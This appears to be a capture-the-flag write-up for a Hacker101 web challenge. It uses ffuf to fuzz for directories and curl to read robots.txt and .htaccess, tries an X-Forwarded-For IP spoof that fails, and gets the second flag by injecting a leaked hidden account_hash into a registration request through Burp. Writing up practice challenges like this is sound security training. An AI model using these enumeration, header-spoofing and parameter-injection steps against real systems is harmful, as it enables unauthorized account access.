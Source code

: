 # Grayhatcon CTF

## Description
This write up will show how to solve the CTF for "Grayhatcon CTF"

**Difficulty:** Moderate

Hint 1: The registration form might have fields you missed!

## Solution 1st flag
Task opens when going to page: Someone's listed all the usernames and passwords for HackerOne on HackerBay! Hack your way in and delete the listing before someone buys them!</br>

When opening the web applications and go through the source code, I don't immediately see something of interest.</br>
As part of recon, I start to fuzz for files:</br>
`ffuf -u https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/FUZZ -w ~/Documents/bug_bounty/lists/files/common.txt`</br>

With this I found the following files:</br>
```
.htpasswd               [Status: 403, Size: 315, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 315, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 315, Words: 20, Lines: 10]
assets                  [Status: 301, Size: 389, Words: 20, Lines: 10]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 5426, Words: 10, Lines: 4]
login                   [Status: 200, Size: 1726, Words: 430, Lines: 36]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1]
register                [Status: 200, Size: 1665, Words: 357, Lines: 33]
robots.txt              [Status: 200, Size: 38, Words: 3, Lines: 3]
robots                  [Status: 200, Size: 38, Words: 3, Lines: 3]
server-status           [Status: 403, Size: 315, Words: 20, Lines: 10]
```

When visiting `https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/robots.txt` I get the following:</br>
```
User-agent: *
Disallow: s3cr3t-4dm1n/
```
That means there should be a hidden folder.</br>
When visiting `https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n` it returns a 403 Forbidden error.</br>

Now fuzz for files in `s3cr3t-4dm1n` with: `ffuf -u https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/FUZZ -w ~/Documents/bug_bounty/lists/files/common.txt`</br>
In this folder there is also an .htaccess which is a configuration file for an Apache webserver.</br>
Read the data in the .htaccess file in the s3cr3t-4dm1n folder: `curl https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/.htaccess`:</br>
```
Order Deny,Allow
Deny from all
Allow from 8.8.8.8
Allow from 8.8.4.4
```
This means the s3cr3t-4dm1n folder can only be accessed from these IP's. Make the same request, but include in the X-Forwarded-For in the request:</br>
`curl https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/ -H "X-Forwarded-For: 8.8.8.8"`

This should give the flag, but it doesn't. It still gives a response 403 Forbidden.</br>

## Solution 2nd flag
When resetting the password it only requires the username.</br>
When checking the source code, there is a hidden field for account_hash.</br>
Reset the password for user `hunter2` and the account_hash will be: `cf505baebbaf25a0a4c63eb93331eb36`

It is possible to create a normal user or a subuser. The only difference is, that the subuser has a owner_hash.</br>
In Burp, turn on Intercept and give a username and password for the new user.</br>
Click on Register and in Burp add `account_hash=cf505baebbaf25a0a4c63eb93331eb36&` before new_username and send the request.</br>
This will create a new user under hunter2. Clicking a few times on forward, it will log in under the new user and show the flag.</br>


hunter2: cf505baebbaf25a0a4c63eb93331eb36
Testuser3: 1c8dd140c8e516150ff75827ba77017f









